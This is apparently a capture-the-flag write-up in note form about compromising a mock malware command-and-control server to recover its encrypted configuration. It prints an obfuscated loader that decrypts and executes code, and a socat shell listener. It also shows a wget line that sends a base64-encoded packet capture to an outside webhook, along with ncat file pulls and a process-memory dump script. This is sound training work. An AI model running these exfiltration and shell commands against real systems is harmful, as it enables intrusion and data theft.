

/server # ^[[34;11Rls -la
ls -la
total 16
drwxr-xr-x    1 root     root            23 Oct  2 19:36 .
drwxr-xr-x    1 root     root            43 Oct  2 19:36 ..
-rw-r--r--    1 root     root          3896 Oct  1 19:14 code.bin
-rw-r--r--    1 root     root           164 Oct  1 19:14 config.bin
-rwxr-xr-x    1 root     root           736 Oct  1 19:14 main.py
-rwxr-xr-x    1 root     root           118 Oct  1 19:14 start.sh

```sh
cat start.sh
#!/bin/sh

./server.sh
rm server.sh
socat TCP-LISTEN:12345,reuseaddr,fork EXEC:/bin/sh,pty,stderr,setsid,sigint,sane
```

```py
#!/usr/bin/env python3
import pathlib
from cryptography.fernet import Fernet
from cryptography.hazmat.primitives import hashes
from cryptography.hazmat.primitives.kdf.pbkdf2 import PBKDF2HMAC
i = __import__
key = i("\x62\x61\x73\x65\x36\x34").urlsafe_b64encode(PBKDF2HMAC(hashes.SHA256(),0o40,bytes.fromhex(pathlib.Path("\x2f\x65\x74\x63\x2f\x6d\x61\x63\x68\x69\x6e\x65\x2d\x69\x64").read_text()),0o46113200,).derive(input("\x50\x61\x73\x73\x77\x6f\x72\x64\x3a\x20").strip().encode()))
c = Fernet(key)
code = i("\x6d\x61\x72\x73\x68\x61\x6c").loads(c.decrypt(pathlib.Path("\x63\x6f\x64\x65\x2e\x62\x69\x6e").read_bytes()))
# conf = json.loads(c.decrypt(pathlib.Path("\x63\x6f\x6e\x66\x69\x67\x2e\x62\x69\x6e").read_bytes()))
exec(code)
```

```
:: Progress: [2776/4686] :: Job [1/1] :: 5 req/sec :: Duration: [0:09:
register                [Status: 405, Size: 153, Words: 16, Lines: 6, Duration: 242ms]
:: Progress: [4686/4686] :: Job [1/1] :: 5 req/sec :: Duration: [0:15:37] :: Errors: 0 ::
```

```sh
❯ curl -I -X OPTIONS "https://ad8957fd-ed5a-48a1-a2df-8aa08c3bc983.openec.sc:1337/register"
HTTP/1.1 200 OK
Allow: OPTIONS, POST
Content-Length: 0
Content-Type: text/html; charset=utf-8
Date: Thu, 02 Oct 2025 20:00:47 GMT
Server: Werkzeug/3.1.3 Python/3.12.11

❯ curl -I -X POST "https://ad8957fd-ed5a-48a1-a2df-8aa08c3bc983.openec.sc:1337/register"
HTTP/1.1 403 Forbidden
Content-Length: 0
Content-Type: text/html; charset=utf-8
Date: Thu, 02 Oct 2025 20:00:56 GMT
Server: Werkzeug/3.1.3 Python/3.12.11
```

```
While analyzing an infected host at the national airport, your teammate remarked that they'd managed to find a vulnerability in an unrelated service on the C2 host and compromise it.
Use this access to 


    Extract the encrypted configuration for the C2 software

    Get access to any currently active infected hosts to identify them (translation: read /flag :3)
```

```sh
netstat -a
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       
tcp        0      0 0.0.0.0:12345           0.0.0.0:*               LISTEN      
tcp        0      0 0.0.0.0:5000            0.0.0.0:*               LISTEN      
tcp        0      0 c2:12345                10-0-136-207.infra-traefik.infra-traefik.svc.cluster.local:41576 ESTABLISHED 
Active UNIX domain sockets (servers and established)
Proto RefCnt Flags       Type       State         I-Node Path
unix  3      [ ]         DGRAM      CONNECTED     39709556 
unix  3      [ ]         DGRAM      CONNECTED     39578959 
unix  3      [ ]         DGRAM      CONNECTED     39709555 
unix  3      [ ]         DGRAM      CONNECTED     39578958 
unix  2      [ ]         STREAM     CONNECTED     39709557
```

```
f727af06645eeeecbe8539901dc2b78e  code.bin
ca23dcafdcf4fa89eed42deccbeb66a1  code.bin.hex
c0913421a0b5975cb6de537f74d5bbbe  config.bin
f81c9b0b77b155ecd06403556e243187  config.hex.bin
148291b6560dff03bdad194fd378dd36  ec2.md
8a44b5af755d63c339367cc68374749b  linPEAS.log
4d8a21587fadf23dcf3c0d6c7b6369e7  solve.ipynb
```
```
c2:/server# md5sum *
md5sum *
9808209077d16e06ab8b6e4a9e725b2d  code.bin
d2272f2185f873d1701297aa58f2e4c3  config.bin
9de00486116d37b507914a568c2a5884  main.py
068d972f5e40bb9f1f40acf62083ce6b  start.sh
```


Okay, we just base64 now, use `-w 0` to have no newlines

```
❯ (sleep 3;echo "base64 -w 0 code.bin")|ncat --ssl 824d392f-bcdc-47bd-a73c-9b52df40c1f3.openec.sc 31337 > ~/Developer/ctf/OpenESCS25/forensics/code.bin.b64
❯ md5sum *
9808209077d16e06ab8b6e4a9e725b2d  code.bin
6c4a1a7c166c93025f6179dacd145019  code.bin.b64
d2272f2185f873d1701297aa58f2e4c3  config.bin
5b509745e888f67f180b65f5267356d1  config.bin.b64
31f564b80903966bb38bebb2654c7013  ec2.md
8a44b5af755d63c339367cc68374749b  linPEAS.log
4d8a21587fadf23dcf3c0d6c7b6369e7  solve.ipynb
```

# Decrypting

It is not worth to actually try to reverse the hash as the cost is way to high:



# TCP dumps

https://github.com/perryflynn/static-binaries?tab=readme-ov-file

https://files.serverless.industries/bin/

`timeout 60 ./tcpdump.amd64 -i eth0 -w capture.pcap`

```sh
> strings capture.pcap
tcpdump.amd64: listening on eth0, link-type EN10MB (Ethernet), snapshot length 262144 bytes
809pzD
_&POST /get_tasks HTTP/1.1
Host: c2:5000
User-Agent: python-requests/2.32.5
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
agent-key: db46119b4e1c441ca156210d338ea6d9
Content-Length: 32
Content-Type: application/json
_&{"agent_id": "447ae47b21dfaec3"}
HTTP/1.1 200 OK
Server: Werkzeug/3.1.3 Python/3.12.11
Date: Fri, 03 Oct 2025 02:29:28 GMT
Content-Type: application/json
Content-Length: 17
Connection: close
 [["sleep","15"]]
```

get it to the local file via 

```sh
> (sleep 2; echo "cat capture.pcap") | ncat --ssl 14d5a211-af0f-4b65-99a9-a892fb7e3f37.openec.sc 31337 > ~/Developer/ctf/OpenESCS25/forensics/capture.test
```

Attempt to strip out shitty control chars

```sh
> cat capture.pcap | tail -n +3 | sed '$d' > capture.pcap2
```

## Okay this takes way to long, let's do it another way

```
> wget --post-data="$(base64 -w 0 /home/capture.pcap)" https://webhook.site/19f3deb1-bc03-47ad-bbe4-d8cba0510444
```

This shit finally works, wireshark and tshark have trouble readint the packets :( but strings is helping me

```
POST /get_tasks HTTP/1.1
Host: c2:5000
User-Agent: python-requests/2.32.5
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
agent-key: db46119b4e1c441ca156210d338ea6d9
Content-Length: 32
Content-Type: application/json

{"agent_id": "f3dbb847e771d79b"}

HTTP/1.1 200 OK
Server: Werkzeug/3.1.3 Python/3.12.11
Date: Fri, 03 Oct 2025 02:48:29 GMT
Content-Type: application/json
Content-Length: 17
Connection: close

[["sleep","15"]]
```

# Time for memory dump

> https://serverfault.com/questions/173999/dump-a-linux-processs-memory-to-file

```sh
procdump()
( 
    cat /proc/$1/maps | grep -Fv ".so" | grep " 0 " | awk '{print $1}' | ( IFS="-"
    while read a b; do
        dd if=/proc/$1/mem bs=$( getconf PAGESIZE ) iflag=skip_bytes,count_bytes \
           skip=$(( 0x$a )) count=$(( 0x$b - 0x$a )) of="$1_mem_$a.bin"
    done )
)
```
```
ls
9_mem_55709b847000.bin  9_mem_7f1d869c3000.bin  9_mem_7f1d87351000.bin
9_mem_55709b848000.bin  9_mem_7f1d86b33000.bin  9_mem_7f1d87382000.bin
9_mem_7f1d86217000.bin  9_mem_7f1d86b40000.bin  9_mem_7f1d87397000.bin
9_mem_7f1d86223000.bin  9_mem_7f1d86b72000.bin  9_mem_7f1d873b4000.bin
9_mem_7f1d86258000.bin  9_mem_7f1d86c95000.bin  9_mem_7f1d873cb000.bin
9_mem_7f1d863a4000.bin  9_mem_7f1d86cda000.bin  9_mem_7f1d873da000.bin
9_mem_7f1d863b7000.bin  9_mem_7f1d86d13000.bin  9_mem_7f1d878d7000.bin
9_mem_7f1d863d6000.bin  9_mem_7f1d86d7f000.bin  9_mem_7f1d878e8000.bin
9_mem_7f1d864f3000.bin  9_mem_7f1d86ea2000.bin  9_mem_7f1d87a58000.bin
9_mem_7f1d86516000.bin  9_mem_7f1d86ec7000.bin  9_mem_7f1d88526000.bin
9_mem_7f1d86530000.bin  9_mem_7f1d86fc7000.bin  9_mem_7f1d8852d000.bin
9_mem_7f1d86535000.bin  9_mem_7f1d870de000.bin  9_mem_7f1d88560000.bin
9_mem_7f1d86584000.bin  9_mem_7f1d8710c000.bin  9_mem_7f1d88661000.bin
9_mem_7f1d8668d000.bin  9_mem_7f1d87117000.bin  9_mem_7f1d8869c000.bin
9_mem_7f1d866a9000.bin  9_mem_7f1d87148000.bin  9_mem_7f1d886b1000.bin
9_mem_7f1d866af000.bin  9_mem_7f1d8717d000.bin  9_mem_7f1d8905a000.bin
9_mem_7f1d866ce000.bin  9_mem_7f1d871ae000.bin  9_mem_7f1d8905c000.bin
9_mem_7f1d866f5000.bin  9_mem_7f1d871b3000.bin  9_mem_7f1d89060000.bin
9_mem_7f1d86888000.bin  9_mem_7f1d872e5000.bin  9_mem_7f1d89105000.bin
9_mem_7f1d86893000.bin  9_mem_7f1d872f9000.bin  9_mem_7fffd261d000.bin
```

```
cat /proc/9/maps
address                   permissions offset dev inode pathname
55709a0e9000-55709a0ea000 r--p 00000000 00:21c 741655549                 /usr/bin/python3.12
55709a0ea000-55709a0eb000 r-xp 00001000 00:21c 741655549                 /usr/bin/python3.12
55709a0eb000-55709a0ec000 r--p 00002000 00:21c 741655549                 /usr/bin/python3.12
55709a0ec000-55709a0ed000 r--p 00002000 00:21c 741655549                 /usr/bin/python3.12
55709a0ed000-55709a0ee000 rw-p 00003000 00:21c 741655549                 /usr/bin/python3.12
55709b847000-55709b848000 ---p 00000000 00:00 0                          [heap]
55709b848000-55709b852000 rw-p 00000000 00:00 0                          [heap]
7f1d86217000-7f1d8621b000 rw-p 00000000 00:00 0 
7f1d86223000-7f1d86256000 rw-p 00000000 00:00 0 
7f1d86258000-7f1d863a1000 rw-p 00000000 00:00 0 
7f1d863a4000-7f1d863b4000 rw-p 00000000 00:00 0 
7f1d863b7000-7f1d863d3000 rw-p 00000000 00:00 0 
7f1d863d6000-7f1d864f2000 rw-p 00000000 00:00 0 
7f1d864f3000-7f1d864fb000 rw-p 00000000 00:00 0 
7f1d864fb000-7f1d864ff000 r--p 00000000 00:21c 674632082                 /usr/lib/python3.12/lib-dynload/_pickle.cpython-312-x86_64-linux-musl.so
7f1d864ff000-7f1d8650e000 r-xp 00004000 00:21c 674632082                 /usr/lib/python3.12/lib-dynload/_pickle.cpython-312-x86_64-linux-musl.so
7f1d8650e000-7f1d86514000 r--p 00013000 00:21c 674632082                 /usr/lib/python3.12/lib-dynload/_pickle.cpython-312-x86_64-linux-musl.so
7f1d86514000-7f1d86515000 r--p 00018000 00:21c 674632082                 /usr/lib/python3.12/lib-dynload/_pickle.cpython-312-x86_64-linux-musl.so
7f1d86515000-7f1d86516000 rw-p 00019000 00:21c 674632082                 /usr/lib/python3.12/lib-dynload/_pickle.cpython-312-x86_64-linux-musl.so
7f1d86516000-7f1d8652e000 rw-p 00000000 00:00 0 
7f1d86530000-7f1d86534000 rw-p 00000000 00:00 0 
7f1d86535000-7f1d86579000 rw-p 00000000 00:00 0 
7f1d86579000-7f1d8657b000 r--p 00000000 00:21c 674632064                 /usr/lib/python3.12/lib-dynload/_csv.cpython-312-x86_64-linux-musl.so
7f1d8657b000-7f1d8657f000 r-xp 00002000 00:21c 674632064                 /usr/lib/python3.12/lib-dynload/_csv.cpython-312-x86_64-linux-musl.so
7f1d8657f000-7f1d86582000 r--p 00006000 00:21c 674632064                 /usr/lib/python3.12/lib-dynload/_csv.cpython-312-x86_64-linux-musl.so
7f1d86582000-7f1d86583000 r--p 00008000 00:21c 674632064                 /usr/lib/python3.12/lib-dynload/_csv.cpython-312-x86_64-linux-musl.so
7f1d86583000-7f1d86584000 rw-p 00009000 00:21c 674632064                 /usr/lib/python3.12/lib-dynload/_csv.cpython-312-x86_64-linux-musl.so
7f1d86584000-7f1d8668c000 rw-p 00000000 00:00 0 
7f1d8668d000-7f1d866a6000 rw-p 00000000 00:00 0 
7f1d866a9000-7f1d866ad000 rw-p 00000000 00:00 0 
7f1d866af000-7f1d866c7000 rw-p 00000000 00:00 0 
7f1d866c7000-7f1d866c8000 r--p 00000000 00:21c 674632074                 /usr/lib/python3.12/lib-dynload/_heapq.cpython-312-x86_64-linux-musl.so
7f1d866c8000-7f1d866c9000 r-xp 00001000 00:21c 674632074                 /usr/lib/python3.12/lib-dynload/_heapq.cpython-312-x86_64-linux-musl.so
7f1d866c9000-7f1d866cc000 r--p 00002000 00:21c 674632074                 /usr/lib/python3.12/lib-dynload/_heapq.cpython-312-x86_64-linux-musl.so
7f1d866cc000-7f1d866cd000 r--p 00004000 00:21c 674632074                 /usr/lib/python3.12/lib-dynload/_heapq.cpython-312-x86_64-linux-musl.so
7f1d866cd000-7f1d866ce000 rw-p 00005000 00:21c 674632074                 /usr/lib/python3.12/lib-dynload/_heapq.cpython-312-x86_64-linux-musl.so
7f1d866ce000-7f1d866f4000 rw-p 00000000 00:00 0 
7f1d866f5000-7f1d86839000 rw-p 00000000 00:00 0 
7f1d86839000-7f1d8683f000 r--p 00000000 00:21c 942461996                 /usr/lib/libmpdec.so.4.0.1
7f1d8683f000-7f1d86854000 r-xp 00006000 00:21c 942461996                 /usr/lib/libmpdec.so.4.0.1
7f1d86854000-7f1d8685c000 r--p 0001b000 00:21c 942461996                 /usr/lib/libmpdec.so.4.0.1
7f1d8685c000-7f1d8685d000 r--p 00022000 00:21c 942461996                 /usr/lib/libmpdec.so.4.0.1
7f1d8685d000-7f1d8685e000 rw-p 00023000 00:21c 942461996                 /usr/lib/libmpdec.so.4.0.1
7f1d8685e000-7f1d86862000 r--p 00000000 00:21c 674632071                 /usr/lib/python3.12/lib-dynload/_decimal.cpython-312-x86_64-linux-musl.so
7f1d86862000-7f1d8687a000 r-xp 00004000 00:21c 674632071                 /usr/lib/python3.12/lib-dynload/_decimal.cpython-312-x86_64-linux-musl.so
7f1d8687a000-7f1d86884000 r--p 0001c000 00:21c 674632071                 /usr/lib/python3.12/lib-dynload/_decimal.cpython-312-x86_64-linux-musl.so
7f1d86884000-7f1d86885000 r--p 00026000 00:21c 674632071                 /usr/lib/python3.12/lib-dynload/_decimal.cpython-312-x86_64-linux-musl.so
7f1d86885000-7f1d86888000 rw-p 00027000 00:21c 674632071                 /usr/lib/python3.12/lib-dynload/_decimal.cpython-312-x86_64-linux-musl.so
7f1d86888000-7f1d86890000 rw-p 00000000 00:00 0 
7f1d86893000-7f1d868af000 rw-p 00000000 00:00 0 
7f1d868af000-7f1d868b1000 r--p 00000000 00:21c 674632122                 /usr/lib/python3.12/lib-dynload/unicodedata.cpython-312-x86_64-linux-musl.so
7f1d868b1000-7f1d868b5000 r-xp 00002000 00:21c 674632122                 /usr/lib/python3.12/lib-dynload/unicodedata.cpython-312-x86_64-linux-musl.so
7f1d868b5000-7f1d869c1000 r--p 00006000 00:21c 674632122                 /usr/lib/python3.12/lib-dynload/unicodedata.cpython-312-x86_64-linux-musl.so
7f1d869c1000-7f1d869c2000 r--p 00111000 00:21c 674632122                 /usr/lib/python3.12/lib-dynload/unicodedata.cpython-312-x86_64-linux-musl.so
7f1d869c2000-7f1d869c3000 rw-p 00112000 00:21c 674632122                 /usr/lib/python3.12/lib-dynload/unicodedata.cpython-312-x86_64-linux-musl.so
7f1d869c3000-7f1d86b31000 rw-p 00000000 00:00 0 
7f1d86b33000-7f1d86b3f000 rw-p 00000000 00:00 0 
7f1d86b40000-7f1d86b6d000 rw-p 00000000 00:00 0 
7f1d86b6d000-7f1d86b6e000 r--p 00000000 00:21c 674632081                 /usr/lib/python3.12/lib-dynload/_opcode.cpython-312-x86_64-linux-musl.so
7f1d86b6e000-7f1d86b6f000 r-xp 00001000 00:21c 674632081                 /usr/lib/python3.12/lib-dynload/_opcode.cpython-312-x86_64-linux-musl.so
7f1d86b6f000-7f1d86b70000 r--p 00002000 00:21c 674632081                 /usr/lib/python3.12/lib-dynload/_opcode.cpython-312-x86_64-linux-musl.so
7f1d86b70000-7f1d86b71000 r--p 00002000 00:21c 674632081                 /usr/lib/python3.12/lib-dynload/_opcode.cpython-312-x86_64-linux-musl.so
7f1d86b71000-7f1d86b72000 rw-p 00003000 00:21c 674632081                 /usr/lib/python3.12/lib-dynload/_opcode.cpython-312-x86_64-linux-musl.so
7f1d86b72000-7f1d86c92000 rw-p 00000000 00:00 0 
7f1d86c95000-7f1d86cd9000 rw-p 00000000 00:00 0 
7f1d86cda000-7f1d86d0e000 rw-p 00000000 00:00 0 
7f1d86d0e000-7f1d86d0f000 r--p 00000000 00:21c 203550130                 /usr/lib/python3.12/site-packages/markupsafe/_speedups.cpython-312-x86_64-linux-musl.so
7f1d86d0f000-7f1d86d10000 r-xp 00001000 00:21c 203550130                 /usr/lib/python3.12/site-packages/markupsafe/_speedups.cpython-312-x86_64-linux-musl.so
7f1d86d10000-7f1d86d11000 r--p 00002000 00:21c 203550130                 /usr/lib/python3.12/site-packages/markupsafe/_speedups.cpython-312-x86_64-linux-musl.so
7f1d86d11000-7f1d86d12000 r--p 00002000 00:21c 203550130                 /usr/lib/python3.12/site-packages/markupsafe/_speedups.cpython-312-x86_64-linux-musl.so
7f1d86d12000-7f1d86d13000 rw-p 00003000 00:21c 203550130                 /usr/lib/python3.12/site-packages/markupsafe/_speedups.cpython-312-x86_64-linux-musl.so
7f1d86d13000-7f1d86d33000 rw-p 00000000 00:00 0 
7f1d86d33000-7f1d86d36000 r--p 00000000 00:21c 942461624                 /usr/lib/liblzma.so.5.8.1
7f1d86d36000-7f1d86d5d000 r-xp 00003000 00:21c 942461624                 /usr/lib/liblzma.so.5.8.1
7f1d86d5d000-7f1d86d6a000 r--p 0002a000 00:21c 942461624                 /usr/lib/liblzma.so.5.8.1
7f1d86d6a000-7f1d86d6b000 r--p 00037000 00:21c 942461624                 /usr/lib/liblzma.so.5.8.1
7f1d86d6b000-7f1d86d6c000 rw-p 00038000 00:21c 942461624                 /usr/lib/liblzma.so.5.8.1
7f1d86d6c000-7f1d86d6e000 r--p 00000000 00:21c 942459543                 /usr/lib/libbz2.so.1.0.8
7f1d86d6e000-7f1d86d7b000 r-xp 00002000 00:21c 942459543                 /usr/lib/libbz2.so.1.0.8
7f1d86d7b000-7f1d86d7d000 r--p 0000f000 00:21c 942459543                 /usr/lib/libbz2.so.1.0.8
7f1d86d7d000-7f1d86d7e000 r--p 00010000 00:21c 942459543                 /usr/lib/libbz2.so.1.0.8
7f1d86d7e000-7f1d86d7f000 rw-p 00011000 00:21c 942459543                 /usr/lib/libbz2.so.1.0.8
7f1d86d7f000-7f1d86e83000 rw-p 00000000 00:00 0 
7f1d86e83000-7f1d86e85000 r--p 00000000 00:21c 674632077                 /usr/lib/python3.12/lib-dynload/_lzma.cpython-312-x86_64-linux-musl.so
7f1d86e85000-7f1d86e89000 r-xp 00002000 00:21c 674632077                 /usr/lib/python3.12/lib-dynload/_lzma.cpython-312-x86_64-linux-musl.so
7f1d86e89000-7f1d86e8c000 r--p 00006000 00:21c 674632077                 /usr/lib/python3.12/lib-dynload/_lzma.cpython-312-x86_64-linux-musl.so
7f1d86e8c000-7f1d86e8d000 r--p 00008000 00:21c 674632077                 /usr/lib/python3.12/lib-dynload/_lzma.cpython-312-x86_64-linux-musl.so
7f1d86e8d000-7f1d86e8e000 rw-p 00009000 00:21c 674632077                 /usr/lib/python3.12/lib-dynload/_lzma.cpython-312-x86_64-linux-musl.so
7f1d86e8e000-7f1d86e90000 r--p 00000000 00:21c 674631991                 /usr/lib/python3.12/lib-dynload/_bz2.cpython-312-x86_64-linux-musl.so
7f1d86e90000-7f1d86e92000 r-xp 00002000 00:21c 674631991                 /usr/lib/python3.12/lib-dynload/_bz2.cpython-312-x86_64-linux-musl.so
7f1d86e92000-7f1d86e93000 r--p 00004000 00:21c 674631991                 /usr/lib/python3.12/lib-dynload/_bz2.cpython-312-x86_64-linux-musl.so
7f1d86e93000-7f1d86e94000 r--p 00005000 00:21c 674631991                 /usr/lib/python3.12/lib-dynload/_bz2.cpython-312-x86_64-linux-musl.so
7f1d86e94000-7f1d86e95000 rw-p 00006000 00:21c 674631991                 /usr/lib/python3.12/lib-dynload/_bz2.cpython-312-x86_64-linux-musl.so
7f1d86e95000-7f1d86e97000 r--p 00000000 00:21c 674632126                 /usr/lib/python3.12/lib-dynload/zlib.cpython-312-x86_64-linux-musl.so
7f1d86e97000-7f1d86e9d000 r-xp 00002000 00:21c 674632126                 /usr/lib/python3.12/lib-dynload/zlib.cpython-312-x86_64-linux-musl.so
7f1d86e9d000-7f1d86ea0000 r--p 00008000 00:21c 674632126                 /usr/lib/python3.12/lib-dynload/zlib.cpython-312-x86_64-linux-musl.so
7f1d86ea0000-7f1d86ea1000 r--p 0000b000 00:21c 674632126                 /usr/lib/python3.12/lib-dynload/zlib.cpython-312-x86_64-linux-musl.so
7f1d86ea1000-7f1d86ea2000 rw-p 0000c000 00:21c 674632126                 /usr/lib/python3.12/lib-dynload/zlib.cpython-312-x86_64-linux-musl.so
7f1d86ea2000-7f1d86ec7000 rw-p 00000000 00:00 0 
7f1d86ec7000-7f1d86ecf000 rw-p 00000000 00:00 0 
7f1d86ecf000-7f1d86ee3000 r--p 00000000 00:21c 402722422                 /usr/lib/libssl.so.3
7f1d86ee3000-7f1d86f5f000 r-xp 00014000 00:21c 402722422                 /usr/lib/libssl.so.3
7f1d86f5f000-7f1d86f8e000 r--p 00090000 00:21c 402722422                 /usr/lib/libssl.so.3
7f1d86f8e000-7f1d86f98000 r--p 000bf000 00:21c 402722422                 /usr/lib/libssl.so.3
7f1d86f98000-7f1d86f9c000 rw-p 000c9000 00:21c 402722422                 /usr/lib/libssl.so.3
7f1d86f9c000-7f1d86fa3000 r--p 00000000 00:21c 674632092                 /usr/lib/python3.12/lib-dynload/_ssl.cpython-312-x86_64-linux-musl.so
7f1d86fa3000-7f1d86fb0000 r-xp 00007000 00:21c 674632092                 /usr/lib/python3.12/lib-dynload/_ssl.cpython-312-x86_64-linux-musl.so
7f1d86fb0000-7f1d86fbe000 r--p 00014000 00:21c 674632092                 /usr/lib/python3.12/lib-dynload/_ssl.cpython-312-x86_64-linux-musl.so
7f1d86fbe000-7f1d86fbf000 r--p 00022000 00:21c 674632092                 /usr/lib/python3.12/lib-dynload/_ssl.cpython-312-x86_64-linux-musl.so
7f1d86fbf000-7f1d86fc7000 rw-p 00023000 00:21c 674632092                 /usr/lib/python3.12/lib-dynload/_ssl.cpython-312-x86_64-linux-musl.so
7f1d86fc7000-7f1d870dd000 rw-p 00000000 00:00 0 
7f1d870de000-7f1d8710b000 rw-p 00000000 00:00 0 
7f1d8710c000-7f1d87116000 rw-p 00000000 00:00 0 
7f1d87117000-7f1d87147000 rw-p 00000000 00:00 0 
7f1d87148000-7f1d87165000 rw-p 00000000 00:00 0 
7f1d87165000-7f1d87168000 r--p 00000000 00:21c 674632069                 /usr/lib/python3.12/lib-dynload/_datetime.cpython-312-x86_64-linux-musl.so
7f1d87168000-7f1d87175000 r-xp 00003000 00:21c 674632069                 /usr/lib/python3.12/lib-dynload/_datetime.cpython-312-x86_64-linux-musl.so
7f1d87175000-7f1d8717a000 r--p 00010000 00:21c 674632069                 /usr/lib/python3.12/lib-dynload/_datetime.cpython-312-x86_64-linux-musl.so
7f1d8717a000-7f1d8717b000 r--p 00015000 00:21c 674632069                 /usr/lib/python3.12/lib-dynload/_datetime.cpython-312-x86_64-linux-musl.so
7f1d8717b000-7f1d8717d000 rw-p 00016000 00:21c 674632069                 /usr/lib/python3.12/lib-dynload/_datetime.cpython-312-x86_64-linux-musl.so
7f1d8717d000-7f1d87185000 rw-p 00000000 00:00 0 
7f1d87185000-7f1d87188000 r--p 00000000 00:21c 674632106                 /usr/lib/python3.12/lib-dynload/array.cpython-312-x86_64-linux-musl.so
7f1d87188000-7f1d8718e000 r-xp 00003000 00:21c 674632106                 /usr/lib/python3.12/lib-dynload/array.cpython-312-x86_64-linux-musl.so
7f1d8718e000-7f1d87192000 r--p 00009000 00:21c 674632106                 /usr/lib/python3.12/lib-dynload/array.cpython-312-x86_64-linux-musl.so
7f1d87192000-7f1d87193000 r--p 0000d000 00:21c 674632106                 /usr/lib/python3.12/lib-dynload/array.cpython-312-x86_64-linux-musl.so
7f1d87193000-7f1d87194000 rw-p 0000e000 00:21c 674632106                 /usr/lib/python3.12/lib-dynload/array.cpython-312-x86_64-linux-musl.so
7f1d87194000-7f1d87197000 r--p 00000000 00:21c 674632090                 /usr/lib/python3.12/lib-dynload/_socket.cpython-312-x86_64-linux-musl.so
7f1d87197000-7f1d871a3000 r-xp 00003000 00:21c 674632090                 /usr/lib/python3.12/lib-dynload/_socket.cpython-312-x86_64-linux-musl.so
7f1d871a3000-7f1d871ac000 r--p 0000f000 00:21c 674632090                 /usr/lib/python3.12/lib-dynload/_socket.cpython-312-x86_64-linux-musl.so
7f1d871ac000-7f1d871ad000 r--p 00018000 00:21c 674632090                 /usr/lib/python3.12/lib-dynload/_socket.cpython-312-x86_64-linux-musl.so
7f1d871ad000-7f1d871ae000 rw-p 00019000 00:21c 674632090                 /usr/lib/python3.12/lib-dynload/_socket.cpython-312-x86_64-linux-musl.so
7f1d871ae000-7f1d871b2000 rw-p 00000000 00:00 0 
7f1d871b3000-7f1d872dc000 rw-p 00000000 00:00 0 
7f1d872dc000-7f1d872de000 r--p 00000000 00:21c 674632118                 /usr/lib/python3.12/lib-dynload/select.cpython-312-x86_64-linux-musl.so
7f1d872de000-7f1d872e1000 r-xp 00002000 00:21c 674632118                 /usr/lib/python3.12/lib-dynload/select.cpython-312-x86_64-linux-musl.so
7f1d872e1000-7f1d872e3000 r--p 00005000 00:21c 674632118                 /usr/lib/python3.12/lib-dynload/select.cpython-312-x86_64-linux-musl.so
7f1d872e3000-7f1d872e4000 r--p 00006000 00:21c 674632118                 /usr/lib/python3.12/lib-dynload/select.cpython-312-x86_64-linux-musl.so
7f1d872e4000-7f1d872e5000 rw-p 00007000 00:21c 674632118                 /usr/lib/python3.12/lib-dynload/select.cpython-312-x86_64-linux-musl.so
7f1d872e5000-7f1d872e9000 rw-p 00000000 00:00 0 
7f1d872e9000-7f1d872ea000 r--p 00000000 00:21c 674631998                 /usr/lib/python3.12/lib-dynload/_contextvars.cpython-312-x86_64-linux-musl.so
7f1d872ea000-7f1d872eb000 r-xp 00001000 00:21c 674631998                 /usr/lib/python3.12/lib-dynload/_contextvars.cpython-312-x86_64-linux-musl.so
7f1d872eb000-7f1d872ec000 r--p 00002000 00:21c 674631998                 /usr/lib/python3.12/lib-dynload/_contextvars.cpython-312-x86_64-linux-musl.so
7f1d872ec000-7f1d872ed000 r--p 00002000 00:21c 674631998                 /usr/lib/python3.12/lib-dynload/_contextvars.cpython-312-x86_64-linux-musl.so
7f1d872ed000-7f1d872ee000 rw-p 00003000 00:21c 674631998                 /usr/lib/python3.12/lib-dynload/_contextvars.cpython-312-x86_64-linux-musl.so
7f1d872ee000-7f1d872f0000 r--p 00000000 00:21c 674632075                 /usr/lib/python3.12/lib-dynload/_json.cpython-312-x86_64-linux-musl.so
7f1d872f0000-7f1d872f5000 r-xp 00002000 00:21c 674632075                 /usr/lib/python3.12/lib-dynload/_json.cpython-312-x86_64-linux-musl.so
7f1d872f5000-7f1d872f7000 r--p 00007000 00:21c 674632075                 /usr/lib/python3.12/lib-dynload/_json.cpython-312-x86_64-linux-musl.so
7f1d872f7000-7f1d872f8000 r--p 00008000 00:21c 674632075                 /usr/lib/python3.12/lib-dynload/_json.cpython-312-x86_64-linux-musl.so
7f1d872f8000-7f1d872f9000 rw-p 00009000 00:21c 674632075                 /usr/lib/python3.12/lib-dynload/_json.cpython-312-x86_64-linux-musl.so
7f1d872f9000-7f1d8734e000 rw-p 00000000 00:00 0 
7f1d87351000-7f1d87382000 rw-p 00000000 00:00 0 
7f1d87382000-7f1d87387000 rw-p 00000000 00:00 0 
7f1d87387000-7f1d87388000 r--p 00000000 00:21c 674632088                 /usr/lib/python3.12/lib-dynload/_sha2.cpython-312-x86_64-linux-musl.so
7f1d87388000-7f1d87393000 r-xp 00001000 00:21c 674632088                 /usr/lib/python3.12/lib-dynload/_sha2.cpython-312-x86_64-linux-musl.so
7f1d87393000-7f1d87395000 r--p 0000c000 00:21c 674632088                 /usr/lib/python3.12/lib-dynload/_sha2.cpython-312-x86_64-linux-musl.so
7f1d87395000-7f1d87396000 r--p 0000d000 00:21c 674632088                 /usr/lib/python3.12/lib-dynload/_sha2.cpython-312-x86_64-linux-musl.so
7f1d87396000-7f1d87397000 rw-p 0000e000 00:21c 674632088                 /usr/lib/python3.12/lib-dynload/_sha2.cpython-312-x86_64-linux-musl.so
7f1d87397000-7f1d873b2000 rw-p 00000000 00:00 0 
7f1d873b4000-7f1d873cb000 rw-p 00000000 00:00 0 
7f1d873cb000-7f1d873cd000 rw-p 00000000 00:00 0 
7f1d873cd000-7f1d873cf000 r--p 00000000 00:21c 674631990                 /usr/lib/python3.12/lib-dynload/_blake2.cpython-312-x86_64-linux-musl.so
